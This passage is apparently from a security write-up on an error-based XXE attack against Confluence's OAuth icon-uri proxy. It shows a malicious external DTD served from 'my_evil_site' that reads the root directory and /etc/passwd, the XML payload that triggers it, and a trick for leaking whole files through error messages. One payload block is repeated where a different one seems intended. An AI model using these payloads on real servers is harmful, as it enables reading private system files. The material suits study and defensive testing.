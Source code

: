 Finall Http request in our collab .


Now we can host evil.xml in attacker server

```
<!ENTITY % file SYSTEM "file:///">
<!ENTITY % ent "<!ENTITY data SYSTEM '%file;'>">
```

- Load the contents of the external reference (in this case the system’s / directory) into the variable %file;.
- Define a variable %ent; that really just glues pieces together to compile a third entity definition, to…
- try and access the resource at location %file; (wherever that may point) and load whatever is in that location into the entity data;.

Note that we intend the third definition to fail, since the contents of %file; will not point to a valid resource location, but instead contains the contents of a complete directory.

Now, use the Confluence “proxy” to point to our evil file, and ensure that the %ent; and &data; parameters are accessed to trigger the directory access:

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml">
%ext;
%ent;
]>
<r>&data;</r>
```

this shows another way to get error-based output back from the server, i.e. by specifying a “missing” protocol,

e.g. reading /etc/passwd with the aforementioned method results in the following error:

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://confluence.company.internal:8090/plugins/servlet/oauth/users/icon-uri?consumerUri=http://my_evil_site/evil.xml">
%ext;
%ent;
]>
<r>&data;</r>
```

> unknown protocol: root


the file can be read up until the first occurrence of a colon :, but no further. A way to bypass this and force the complete file content to be displayed in the error message, is by prepending a colon before the file contents. 

This will force the “no protocol” error, since the field before the first colon will be empty
